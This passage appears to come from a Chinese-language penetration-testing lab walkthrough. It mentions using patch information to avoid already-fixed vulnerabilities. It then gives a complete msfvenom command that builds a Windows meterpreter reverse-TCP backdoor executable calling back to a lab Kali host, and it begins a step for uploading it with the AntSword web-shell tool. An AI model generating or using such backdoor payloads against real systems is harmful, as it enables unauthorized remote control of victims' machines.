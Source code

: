![Alt text](image-11.png)    
通过补丁信息，可以了解某些漏洞是否已经被修复了，从而避开已修复漏洞的攻击。
## 3. 使用msf制作一个exe后门程序
```shell
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.228.129 LPORT=5555 -f exe -o 5555.exe
```   
ip为kali的ip   
![Alt text](image-12.png)   
## 4. 使用蚁剑上传制作好的 `5555.exe`